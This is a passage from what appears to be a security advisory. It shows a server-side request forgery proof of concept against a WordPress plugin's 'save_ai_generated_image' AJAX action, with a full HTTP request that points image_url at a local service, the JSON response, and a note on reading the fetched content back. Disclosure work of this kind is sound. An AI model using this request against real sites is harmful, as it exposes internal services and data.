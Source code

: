 ```txt {filename="requirements.txt"}
hello
```

### Proof of Concept (PoC)

Send a request with `image_url` pointing to a local service `http://127.0.0.1:8001/test` as an **Author** user:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-login.php?loggedout=true&wp_lang=en_US
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=auth%7C1761189920%7CaUULiwmj9KXCapzU3Q82L7W45WcbXbqHowa8a6yQ2Vz%7C3cc12be38f8f94048309b7fcd31bd2187065311afecea7df5a9f01f5a207072b; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=auth%7C1761189920%7CaUULiwmj9KXCapzU3Q82L7W45WcbXbqHowa8a6yQ2Vz%7C38f09626eae6d08f6cdb9cd1ce781da26c2acdd8ef2fd1822d84a6d76c6c95ad; wp-settings-time-4=1761017121

action=save_ai_generated_image&admin_nonce=9433571df4&prompt=abc&image_url=http://127.0.0.1:8001/test
```

**Response**:

```json
{
  "success": true,
  "data": {
    "attachment_id": 355,
    "url": "http://localhost/wp-content/uploads/2025/10/ai-generated-abc-1761019403.png",
    "alt": "abc",
    "title": "abc",
    "caption": "",
    "description": ""
  }
}
```

**Result**:

Read the stored file at `http://localhost/wp-content/uploads/2025/10/ai-generated-abc-1761019403.png` using **BurpSuite**

![Result](result.png "Content read from the local service")
